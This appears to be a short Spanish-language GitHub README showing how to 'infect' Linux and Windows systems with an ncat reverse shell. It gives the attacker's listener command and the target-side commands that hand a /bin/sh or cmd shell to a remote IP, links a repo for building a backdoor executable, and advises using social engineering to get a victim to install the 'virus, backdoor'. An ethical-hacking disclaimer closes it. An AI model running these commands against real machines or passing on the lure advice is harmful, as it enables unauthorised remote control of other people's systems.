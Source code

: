 # REVERSE_SHELL-CON-NCAT

# Infectar un sistema linux y windows.
# Con tan solo 2 lineas de comando !


* LISTENER (HACKER) > PARROT 

```bash
ncat -l -v 4444
```

* TARGET > UBUNTU 

```bash
ncat -v 192.168.1.200 4444 -e "/bin/sh"
```

# Result > ![backdoor](https://user-images.githubusercontent.com/97669969/154819413-fd945688-3170-46e5-995e-46fd7f491333.jpg)


# Windows 

* LISTENER (HACKER) > PARROT

```bash
ncat -l -v 4444
```

* TARGET > WINDOWS 

```bash
ncat -v 192.168.1.200 4444 -e cmd
```
# RESULT >
![windows shell](https://user-images.githubusercontent.com/97669969/154819759-1af4849a-9bc7-4e86-a5e2-42a834a89e58.jpg)





# " La Navaja Suiza " EN ACCION !




* La IP debe ser la tuya. 
* El puerto esta por defecto en 4444. 


# Por supuesto aqui estamos haciendo pruebas de nuestro backdoor. 
* Tenemos que usar un lenguaje y escribir nuestro codigo y crear un archivo executable tanto en linux como en windows.
# El desarrollo del backddor y listener se encuentra en el siguente repo > https://github.com/tmcyberagent/BACKDOOR-LABORATORIO-



* Y por suspuesto > usar ingenieria social para hacer que esa persona instale nuestro virus, backdoor..etc.







# "TMCyber offers its information on the Internet basically for the benefit of people interested in the efforts and in favor of the implementation of the protection and promotion of computer security (Cybersecurity) and Ethical Hacking.""
TMCyber is not responsible for the misuse of this tool.
